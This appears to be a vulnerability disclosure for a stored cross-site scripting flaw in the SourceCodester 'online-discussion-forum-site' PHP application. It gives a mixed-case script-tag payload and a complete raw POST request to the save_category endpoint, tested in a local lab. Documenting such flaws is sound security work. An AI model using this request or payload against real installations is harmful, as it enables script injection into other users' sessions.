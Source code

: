 # online-discussion-forum-site - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /odfs/classes/Master.php

Vulnerability location: /odfs/classes/Master.php?f=save_category, name

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/odfs/classes/Master.php?f=save_category HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------1173846977850966238533383019
Content-Length: 743
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/odfs/admin/?page=categories
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

-----------------------------1173846977850966238533383019
Content-Disposition: form-data; name="id"

3
-----------------------------1173846977850966238533383019
Content-Disposition: form-data; name="name"

<sCrIpT>alert(1)</sCrIpT>
-----------------------------1173846977850966238533383019
Content-Disposition: form-data; name="description"

Python is a high-level, interpreted, general-purpose programming language. Its design philosophy emphasizes code readability with the use of significant indentation. Python is dynamically-typed and garbage-collected.
-----------------------------1173846977850966238533383019
Content-Disposition: form-data; name="status"

1
-----------------------------1173846977850966238533383019--

```

![](https://github.com/mikeccltt/0525/blob/main/online-discussion-forum-site/xss.gif?raw=true)
